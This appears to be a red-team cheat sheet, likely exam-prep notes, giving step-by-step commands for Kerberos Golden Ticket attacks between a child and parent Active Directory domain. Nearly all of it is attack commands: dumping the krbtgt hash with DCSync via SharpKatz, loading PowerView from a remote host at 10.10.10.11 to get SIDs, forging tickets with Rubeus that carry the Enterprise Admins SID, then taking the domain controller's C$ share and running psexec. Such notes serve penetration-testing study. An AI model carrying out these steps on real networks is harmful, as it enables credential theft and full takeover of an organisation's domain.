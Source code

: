 # Golden Ticket

## Child Domain to Parent Domain

Creating golden ticket to be a part of EA within the parent domain from the child domain

### 1) Get krbtgt token from the child domain using DCSync

    krbtgt -> ffffffffffffffffffffffffffffffff


### 2) Try to access CIFS on DC02

    ls //dc02.domain.com/c$


### 3) Check the tickets

    execute -o klist


### 4) Get the SIDs for the forest domain and its child

    Get-DomainSID -Domain child.domain.com
    Get-DomainSid -Domain domain.com
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainSid -Domain child.domain.com"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainSid -Domain domain.com"'


We get

    S-1-5-21-2032401531-514583578-4118012345
    S-1-5-21-1135011135-3178090508-3151412345


### 5) Draft golden ticket - user can be anything bogus - sid is current domain SID and SIDs is child's - Also -519 is the EA group identifier and is static

    rubeus -t 30 -- golden /rc4:ffffffffffffffffffffffffffffffff /sid:S-1-5-21-2032401531-514583578-4118012345 /sids:S-1-5-21-1135011135-3178090508-3151412345-519 /ldap /user:Administrator /domain:child.domain.com /nowrap /ptt

### 6) Check the tickets

    execute -o klist

### 7) Try accessing the C$ now

    ls //dc02.domain.com/c$


### 8) Go into client -> nt auth\system shell and then

    psexec -d Title -s Description -p osep-lateral dc02.domain.com

## Parent Domain to Child Domain

All this or just add yourself into EA by being a DA on the parent domain

### 1) DCSync to do SharpKatz - Only the DA -> Admin can do it hence we do runas above

    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --User domain.com\\krbtgt --Domain domain.com --DomainController dc01.domain.com


Hashes

    krbtgt -> ffffffffffffffffffffffffffffffff


### 2) Get the SIDs for the domain

    Get-DomainSID -Domain domain.com
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainSid -Domain domain.com"'

We get

    domain.com -> S-1-5-21-1725955968-4040474791-670212345


### 3) Draft golden ticket - user can be anything bogus - sid and sids are same with sids containing group id for EA

    rubeus -t 30 -- golden /rc4:ffffffffffffffffffffffffffffffff /sid:S-1-5-21-1725955968-4040474791-670212345 /sids:S-1-5-21-1725955968-4040474791-670212345-519 /ldap /user:Administrator /domain:domain.com /nowrap /ptt


### 4) Check the tickets

    execute -o klist


### 5) Try accessing the C$ now

    ls //dc02.dev.domain.com/c$


### 6) Go into client -> nt auth\system shell and then

    psexec -d Title -s Description -p osep-lateral dc02.dev.domain.com
